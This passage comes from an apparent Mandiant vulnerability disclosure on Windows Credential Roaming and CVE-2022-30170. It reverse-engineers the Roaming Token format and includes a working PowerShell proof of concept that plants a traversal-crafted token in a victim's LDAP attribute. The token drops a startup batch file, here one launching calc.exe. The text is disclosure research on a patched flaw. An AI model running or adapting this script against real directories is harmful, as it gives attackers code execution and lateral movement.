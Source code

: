 apply).Figure 4: Snippet of code from dimsjob.dll!CDims::Notify where dimsroam.dll!DimsRoamEntry is calledMandiant then identified the binary structure of the entries in the msPKIAccountCredentials LDAP attribute (Figure 5).Figure 5: Binary structure of Roaming TokensThe binary structure starts off with an indication of which type of Roaming Token this entry represents. Mandiant identified the following types:%0: DPAPI Master Key%1: CAPI Private Key (RSA)%2: CAPI Private Key (DSA)%3: CAPI Certificate%4: CAPI Certificate Request%5: Username/Password (Enterprise Credential Data)%6: (unknown – presumably unused)%7: CNG Certificate%8: CNG Certificate Request%9: CNG Private KeyNext follows the identifier of the Roaming Token. This is the filename of the corresponding file on disk. The structure continues with the last update timestamp of the Roaming Token, some NULL bytes (padding) and the SHA1 hash of the Roaming Token data. Finally, the size of the Roaming Token data is included (4 bytes integer) and the raw data of the Roaming Token data.When dimsroam.dll launches, it retrieves these structures from the msPKIAccountCredentials LDAP attribute of the current user. For every entry, it determines if there already exists a local file that corresponds to the Roaming Token. If such a file is found, dimsroam.dll will compare the last file write time and the SHA1 hash and update the file if necessary. If such a local file is not found, dimsroam.dll identifies the correct save location for the binary data based on the type of the Roaming Token (Figure 6).Figure 6: Snippet from dimsroam.dll where the save location is determined based on the Roaming Token type (the path is prepended with the user’s %AppData% directory)To determine the final save location of the roaming token, the identifier (byte 0x03 to 0x0F) is appended to the folder path string (Figure 7).Figure 7: Identifier string is appended to folder path stringThis file path is then directly passed to a kernel32!CreateFileW API call (Figure 8), where the Roaming Token data will be written.Figure 8: The modified file path is passed to kernel32!CreateFileWCVE-2022-30170: Arbitrary File Write turns Remote Code ExecutionThe aforementioned behavior introduces an Arbitrary File Write vulnerability: the file path is not properly sanitized and may contain directory traversal (“..\”) characters. If an attacker can control the msPKIAccountCredentials LDAP attribute, they may add a malicious Roaming Token entry where the identifier string contains directory traversal characters and thereby write an arbitrary number of bytes to any file on the file system, posing as the victim account. The only constraint is that the full file name plus directory traversal characters fits within the 92 bytes buffer. As a proof of concept, Mandiant developed the following malicious Roaming Token entry (Figure 9).Figure 9: Malicious Roaming Token entryTo insert the malicious Roaming Token entry into the msPKIAccountCredentials LDAP attribute of a victim account, run the following PowerShell script (Figure 10).Figure 10: PowerShell script to insert the malicious Roaming Token entry# Fetch current user object$user = get-aduser <victim username> -properties @('msPKIDPAPIMasterKeys','msPKIAccountCredentials', 'msPKI-CredentialRoamingTokens','msPKIRoamingTimestamp') # Install malicious Roaming Token (spawns calc.exe)$malicious_hex = "25335c2e2e5c2e2e5c57696e646f77735c5374617274204d656e755c50726f6772616d735c537461727475705c6d616c6963696f75732e6261740000000000000000000000000000000000000000000000000000000000000000000000000000f0a1f04c9c1ad80100000000f52f696ec0f1d3b13e9d9d553adbb491ca6cc7a319000000406563686f206f66660d0a73746172742063616c632e657865"$attribute_string = "B:$($malicious_hex.Length):${malicious_hex}:$($user.DistinguishedName)"Set-ADUser -Identity $user -Add @{msPKIAccountCredentials=$attribute_string} -Verbose# Set new msPKIRoamingTimestamp so the victim machine knows an update was pushed$new_msPKIRoamingTimestamp = ($user.msPKIRoamingTimestamp[8..15] + [System.BitConverter]::GetBytes([datetime]::UtcNow.ToFileTime())) -as [byte[]]set-aduser -Identity $user -Replace @{msPKIRoamingTimestamp=$new_msPKIRoamingTimestamp} -VerboseBy updating the msPKIRoamingTimeStamp attribute, the Credential Roaming service will trigger synchronization on any computer where the victim user logs in from then on; dimsroam.dll will parse the msPKIAccountCredentials LDAP attribute and will create ‘%APPDATA%\Microsoft\SystemCertificates\My\Certificates\..\..\..\Windows\Start Menu\Programs\Startup\malicious.bat‘ (or simplified, ‘%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\malicious.bat‘) with the content ‘@echo off [newline] start calc.exe’. This BAT file will execute the next time the user logs on to any system, thereby achieving remote code execution in the context of the victim user.This vulnerability was reported to MSRC in April 2022 and was classified as an ‘Elevation of Privilege’ vulnerability. Microsoft assigned CVE-2022-30170 and published KB5017365 and KB5017367 on September 13 2022 to address the issue. Mandiant published this vulnerability under MNDT-2022-0038.An Attacker's PerspectiveThe use of Credential Roaming in an organization allows attackers (and Red Teams) to abuse the saved credentials for the purposes of privilege escalation. The author identifies the following situations that could allow an attacker to abuse Credential Roaming:An organization has not applied the September 2022 patch to each system where Credential Roaming is used.The affected systems are vulnerable to CVE-2022-30170 – an attacker can abuse this vulnerability to write arbitrary files to the affected systems in the context of any users they can control, possibly allowing for lateral movement. Using this technique, an attacker can spread to any affected system accessed by the victim user, including systems that are possibly unknown to